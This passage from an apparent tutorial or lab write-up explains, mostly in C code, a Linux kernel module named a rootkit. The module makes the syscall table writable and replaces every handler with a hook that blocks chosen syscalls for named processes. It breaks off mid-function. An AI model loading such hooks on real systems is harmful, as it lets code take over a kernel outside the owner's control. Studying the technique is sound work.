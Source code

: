 		pr_info("The module was assigned major number %d.\n", major);
		cls = class_create(THIS_MODULE, OURMODNAME);
		device_create(cls, NULL, MKDEV(major, 0), NULL, OURMODNAME);
		pr_info("Device created on /dev/%s\n", OURMODNAME);

		return 0;
	}

	static void __exit rootkit_exit(void) {
		struct filter *cur, *tmp;

		// unhook syscall
		remove_syscall_hook();
		pr_info("removed syscall hooks\n");
		
		// cleanup syscall filter list
		list_for_each_entry_safe(cur, tmp, &filter_list, list) {
			list_del(&cur->list);
			pr_info("removed filter syscall_nr=%d, comm=%s\n", cur->syscall_nr, cur->comm);
			kfree(cur);
		}
		pr_info("removed filter list\n");

		pr_info("%s: removed\n", OURMODNAME);
		device_destroy(cls, MKDEV(major, 0));
		class_destroy(cls);
		unregister_chrdev(major, OURMODNAME);
	}
    ```
8. To extend syscall filtering capabilities, we replace all syscall handlers in `sys_call_table` with `hooked_syscall()`, which can filter syscalls. In `hooked_syscall()`, we obtain process name via `(struct task_struct *) current` and syscall number via `regs->regs[8]`.
    ```c
    static asmlinkage long hooked_syscall(const struct pt_regs *regs) {
        struct filter *cur;
        struct task_struct *current_t;

        current_t = current;
        list_for_each_entry(cur, &filter_list, list) {
            if (regs->regs[8] == cur->syscall_nr && strcmp(cur->comm, current_t->comm) == 0) {
                return -EPERM;
            }
        }
        return orig_sys_call[regs->regs[8]](regs);
    }
    ```
    `static void *orig_sys_call[NR_syscalls]` stores original syscall handlers.
    ```c
    static sys_call_t orig_sys_call[NR_syscalls];\

    static int set_syscall_hook(void) {
        __mark_rodata_wr();

        for (int i = 0; i < NR_syscalls; i++) {
            if (i == __NR_delete_module) // do NOT modify delete_module()
                continue;
            orig_sys_call[i] = (sys_call_t)__sys_call_table[i];
            __sys_call_table[i] = (unsigned long) &hooked_syscall;
        }
